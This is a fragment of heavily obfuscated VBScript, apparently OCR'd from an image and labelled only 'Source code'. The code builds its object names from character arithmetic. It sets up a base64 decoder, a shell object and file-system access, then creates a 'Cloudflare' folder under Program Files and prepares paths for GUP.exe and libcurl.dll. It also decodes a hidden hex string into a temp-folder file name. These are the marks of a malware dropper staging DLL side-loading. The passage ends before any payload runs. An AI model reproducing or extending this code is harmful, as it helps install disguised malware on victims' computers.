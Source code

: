 ```basic
  Set q4XPbvoV=CreateObject(Chr(&H4d)&"S"&Chr(Int("&H58"))&Chr(Int("77"))&Chr(247988/3263)&Chr(&H32)&Chr(Int("&H2e"))&Chr(Int("68"))&Chr(Int("&H4f"))&Chr(Int("&H4d"))&Chr(&H44)&Chr(2427-2316)&"c"&Chr(Int("&H75"))&Chr(&H6d)&Chr(101)&Chr(&H6e)&Chr(-1790+1906))
  Set HxWK=q4XPbvoV.createElement(Chr(545-448))
  HxWK.DataType=Chr(98)&Chr(Int("105"))&Chr(110)&Chr(Int("46"))&Chr(98)&Chr(97)&Chr(115)&Chr(Int("101"))&Chr(Int("&H36"))&Chr(6238-6186)
  HxWK.Text=inp
  Xk7fbp8v=HxWK.nodeTypedValue
End Function
Function AJ8p()
  On Error Resume Next
  Dim AgUvcCuHzzbl
  Dim DfAV40y
  Dim gwqhhV
  Dim JJNe
  Dim Mw7U
  Dim O8B1OrkTW
  OMxa=Chr(Int("53"))&Chr(Int("&H31"))&Chr(&H37)&Chr(51)&Chr(52)&Chr(101)&Chr(56)&Chr(Int("&H65"))&Chr(&H37)&Chr(Int("101"))&Chr(&H63)&Chr(Int("&H34"))&Chr(&H37)&Chr(Int("101"))&Chr(&H63)&Chr(Int("55"))&Chr(53)&Chr(Int("51"))&Chr(Int("99"))&Chr(Int("50"))&Chr(&H35)&Chr(50)&Chr(&H61)&Chr(Int("48"))&Chr(Int("55"))&Chr(Int("&H62"))&Chr(&H32)&Chr(&H63)&Chr(Int("&H35"))&Chr(Int("49"))&Chr(54)&Chr(&H62)&Chr(53)&Chr(Int("99"))&Chr(&H34)&Chr(Int("97"))&Chr(&H32)&Chr(48)&Chr(49)&Chr(&H63)&Chr(Int("&H35"))&Chr(Int("102"))&Chr(51)&Chr(Int("97"))&Chr(Int("55"))&Chr(&H66)&Chr(53)&Chr(49)&Chr(Int("54"))&Chr(Int("&H37"))&Chr(Int("54"))&Chr(&H66)&Chr(Int("50"))&Chr(&H30)&Chr(&H31)&Chr(Int("&H64"))&Chr(53)&Chr(&H31)&Chr(Int("54"))&Chr(56)&Chr(Int("53"))&Chr(54)&Chr(&H66)&Chr(Int("&H64"))&Chr(55)&Chr(102)&Chr(Int("&H35"))&Chr(49)&Chr(Int("55"))&Chr(101)&Chr(Int("&H64"))&Chr(99)&Chr(Int("&H35"))&Chr(Int("98"))&Chr(Int("56"))&Chr(57)&Chr(&H35)&Chr(Int("49"))&Chr(&H36)&Chr(&H38)&Chr(Int("&H36"))&Chr(51)&Chr(Int("49"))&Chr(Int("49"))&Chr(Int("&H36"))&Chr(Int("50"))&Chr(Int("&H31"))&Chr(Int("56"))&Chr(56)&Chr(100)&Chr(Int("53"))&Chr(Int("98"))&Chr(&H37)&Chr(Int("54"))&Chr(Int("56"))&Chr(Int("52"))&Chr(Int("57"))&Chr(Int("&H30"))&Chr(Int("49"))&Chr(Int("97"))&Chr(Int("55"))&Chr(Int("&H37"))&Chr(101)&Chr(Int("&H35"))&Chr(Int("&H66"))&Chr(Int("&H66"))&Chr(&H30)&Chr(&H38)&Chr(48)&Chr(Int("48"))&Chr(Int("51"))&Chr(Int("&H31"))&Chr(&H30)&Chr(&H30)&Chr(51)&Chr(49)&Chr(Int("&H36"))&Chr(Int("&H37"))&Chr(&H30)&Chr(Int("56"))&Chr(Int("48"))&Chr(Int("&H30"))&Chr(Int("&H33"))&Chr(Int("50"))&Chr(54)&Chr(53)&Chr(Int("101"))&Chr(Int("53"))&Chr(&H38)&Chr(Int("&H31"))&Chr(Int("&H66"))&Chr(&H33)&Chr(Int("&H30"))&Chr(&H30)&Chr(Int("&H33"))&Chr(&H33)&Chr(Int("&H36"))&Chr(Int("&H35"))&Chr(Int("101"))&Chr(Int("53"))&Chr(&H34)&Chr(Int("101"))&Chr(51)&Chr(&H65)&Chr(&H38)&Chr(Int("&H38"))&Chr(Int("52"))&Chr(Int("99"))&Chr(55)&Chr(Int("&H65"))&Chr(&H62)&Chr(Int("&H66"))&Chr(&H34)&Chr(Int("101"))&Chr(Int("48"))&Chr(&H61)&Chr(56)&Chr(100)&Chr(Int("53"))&Chr(98)&Chr(Int("&H66"))&Chr(Int("102"))&Chr(Int("48"))&Chr(&H39)&Chr(48)&Chr(Int("&H30"))&Chr(Int("50"))&Chr(101)&Chr(48)&Chr(Int("48"))&Chr(Int("55"))&Chr(48)&Chr(&H30)&Chr(&H30)&Chr(Int("54"))&Chr(&H34)&Chr(48)&Chr(Int("48"))&Chr(54)&Chr(&H36)
  Set AgUvcCuHzzbl=CreateObject(Chr(Int("&H57"))&Chr(537-454)&Chr(99)&Chr(3218-3104)&Chr(Int("&H69"))&Chr(Int("&H70"))&Chr(-3081+3197)&Chr(&H2e)&Chr(&H53)&Chr(104)&"e"&Chr(Int("108"))&"l")
  Set DfAV40y=CreateObject(Chr(Int("83"))&Chr(6597-6498)&Chr(114)&Chr(Int("&H69"))&"p"&Chr(Int("116"))&Chr(2693-2588)&"n"&Chr(Int("103"))&Chr(125212/2722)&Chr(Int("&H46"))&Chr(Int("105"))&Chr(108)&Chr(101)&Chr(22908/276)&"y"&"s"&Chr(4733-4617)&"e"&Chr(Int("109"))&Chr(&H4f)&Chr(Int("98"))&Chr(&H6a)&Chr(101)&Chr(99)&Chr(Int("116")))
  O8B1OrkTW=AgUvcCuHzzbl.ExpandEnvironmentStrings(Chr(37)&Chr(Int("&H50"))&Chr(Int("&H72"))&Chr(Int("111"))&Chr(Int("&H67"))&Chr(114)&Chr(Int("&H61"))&Chr(109)&"F"&Chr(Int("&H69"))&"l"&"e"&Chr(-1605+1720)&Chr(Int("37")))
  P59b6scR2TD9=O8B1OrkTW & Chr(2088-1996)&"C"&Chr(Int("108"))&Chr(270729/2439)&Chr(Int("117"))&"d"&Chr(Int("102"))&Chr(108)&Chr(97)&Chr(Int("114"))&Chr(&H65)
  DfAV40y.CreateFolder(P59b6scR2TD9)
  gwqhhV=P59b6scR2TD9 & Chr(92) & Chr(Int("71"))&Chr(85)&Chr(Int("&H50"))&Chr(Int("&H2e"))&Chr(&H65)&Chr(&H78)&Chr(1805-1704)
  JJNe=P59b6scR2TD9 & Chr(92) & Chr(Int("&H6c"))&Chr(Int("&H69"))&Chr(98)&Chr(Int("&H63"))&Chr(117)&Chr(&H72)&Chr(Int("&H6c"))&Chr(&H2e)&Chr(&H64)&Chr(108)&Chr(Int("108"))
  For i=1 to Len(OMxa) Step 4
    FRURX=FRURX & ChrW(CLng("&"&Chr(72) & Mid(OMxa,i,4)))
  Next
  Mw7U=DfAV40y.GetSpecialFolder(2) & Chr(92) & FRURX
```